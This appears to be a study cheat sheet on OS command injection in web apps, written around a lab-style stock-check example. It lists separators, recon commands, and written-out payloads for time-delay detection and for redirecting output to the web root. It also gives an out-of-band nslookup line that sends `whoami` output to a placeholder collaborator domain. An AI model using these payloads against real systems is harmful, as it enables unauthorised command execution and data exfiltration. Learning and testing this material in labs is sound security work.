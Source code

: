 # Basic

The information is accessed via a URL like
`https://insecure-website.com/stockStatus?productID=432&storeID=32`

- this will execute the shell command with the product and store IDs as arguments such as `stockreport.pl 432 32`

- For command injection, attacker can submit the following input to execute an arbitary command; `& echo asdfsdf &` and the backend will call the command as follow; `stockreport.pl 432 & echo sdfsdfsdf & 32` and will get an error.

eg - `productId=2&storeId=2|whoami` in POST request header

## Useful Commands

| Purpose            | Linux       | Window        |
| ------------------ | ----------- | ------------- |
| Name of user       | whoami      | whoami        |
| OS                 | uname -a    | ver           |
| network conf       | ifconfig    | ipconfig /all |
| network connection | netstat -an | netstat -an   |
| running processes  | ps -ef      | tasklist      |

## Ways of injecting OS commands

- & , && , | , || (both unix and windows)
- ; , 0x0a or \n (for unix)

## using time delays

eg - POST request for form submit =>
`csrf=g12AXHTk57AsU2J2ID68mqsxwVByepIg&name=test&email=test%40gmail.com&subject=Testing&message=Testing+the+OS+command+injection`

- command to inject `& sleep 10s #` (# for comment out the following commands) and change it to url encode.
- then try to inject at the end of each parameters (name, email, subject, message)

`csrf=g12AXHTk57AsU2J2ID68mqsxwVByepIg&name=test&email=test%40gmail.com+%26+sleep+10s+%23&subject=Testing&message=Testing+the+OS+command+injection`

## redirecting output

> `& whoami > /var/www/static/whoami.txt &`

> `%26+whoami+>+/var/www/images/whoami.txt+%23`

## with out-of-band interaction

> `& nslookup `whoami`.BURP-COLLABORATOR-DOMAIN &`

